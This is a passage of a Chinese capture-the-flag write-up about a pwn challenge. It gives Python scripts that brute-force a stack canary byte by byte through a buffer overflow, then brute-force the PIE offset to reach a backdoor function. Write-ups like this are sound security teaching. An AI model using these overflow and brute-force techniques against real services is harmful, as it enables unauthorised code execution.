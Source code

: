 [![](assets/1706146504-12e9cbcac7bde5989c930edc157432f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121234000-5656ce9a-b873-1.png)  
虽然有后们，但是保护全开，所以泄露了 canary，还得继续爆破 pie

[![](assets/1706146504-10696566e6256de8d8c4f1ddd3da1f7b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121234008-5b6d4d64-b873-1.png)

### 爆破 canary 脚本

```bash
canary = '\x00'
for k in range(7):
    for i in range(256):
        print("正在爆破 Canary 的第" + str(k+1) + "位")
        print("当前的字符为" + chr(i))
        payload=b'a'*0x68 + canary + chr(i)
        print("当前的字符为" + payload)
        p.send(b'a'*0x68 + canary +chr(i))
        data = p.recvuntil("welcome\n")
        if 'stack' in data:
            continue
        else:
            print(str(i + 1) + 'place')
            canary += p8(i)
            print(canary)
            break
```

### 爆破 pie 脚本

```bash
backdoor = 0x0231
while True:
    for i in range(16):
        p.send(b'a'*0x68+canary*2+p16(backdoor))
# offset + canary + rbp + pie_backdoor
        a = p.recvuntil(b'welcome\n', timeout = 0.5)
# timeout 最好还是加上
        if b'welcome\n' in a:
            backdoor += 0x1000
        if b'flag' in a:
# 如果是 flag 开头就改为 flag
            print(a)
            p.interactive()
```
